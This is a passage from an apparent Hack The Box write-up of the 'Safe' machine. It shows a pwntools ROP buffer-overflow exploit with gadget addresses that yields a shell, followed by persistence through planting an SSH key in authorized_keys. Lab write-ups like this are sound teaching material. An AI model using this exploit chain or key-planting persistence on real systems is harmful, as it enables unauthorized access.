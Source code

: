 ```python
           0x00401153      4889e5         mov rbp, rsp
           0x00401156      4889e7         mov rdi, rsp
           0x00401159      41ffe5         jmp r13
"""

payload = JUNK + p64(0x0000000000401206)    # ROP chain gadget
payload += p64(0x401040)     # pop r13
payload += "BBBBBBBB"        # pop r14
payload += "CCCCCCCC"        # pop r15
payload += p64(0x00401152)   # sym.test

p.recvline()
p.sendline(payload)
p.interactive()
```

Running the exploit, I'm able to land a shell on the box:

![](/assets/images/htb-writeup-safe/user.png)

Because the SSH service is listening, I can dump my SSH public key in `/home/user/.ssh/authorized_keys`:

![](/assets/images/htb-writeup-safe/keys.png)
